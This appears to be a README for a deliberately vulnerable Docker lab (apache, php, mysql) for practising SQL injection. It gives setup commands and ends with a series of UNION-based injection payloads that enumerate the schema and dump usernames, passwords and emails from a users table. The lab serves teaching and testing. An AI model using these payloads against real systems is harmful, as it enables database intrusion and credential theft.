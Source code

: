# Start all three containers apache, php and mysql
docker-compose up
Notice how these 3 daemons run on PID 1 inside of each container, this is considered a best-practice for building containers!

# Test connection
curl localhost:8080

Notice now in the logs that the apache container and php containers both respond to the request, as desired:
php_1     | 172.18.0.4 -  16/Jul/2018:02:09:22 +0000 "GET /index.php" 200
apache_1  | 172.18.0.1 - - [16/Jul/2018:02:09:22 +0000] "GET / HTTP/1.1" 200 108

# Enter the mysql container to initialize database
docker exec -it sql_injection_mysql_1 mysql -u root -p -e "Use injectionAttack; $(cat ./mysql/db-init.sql)"

';-- 

pillows' UNION (SELECT 1,2,3,4,5 FROM dual);-- 

pillows' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3, 4, 5 FROM information_schema.tables);-- 

pillows' UNION (SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- 

pillows' UNION (SELECT id, username, psswd, email, description FROM users);-- 
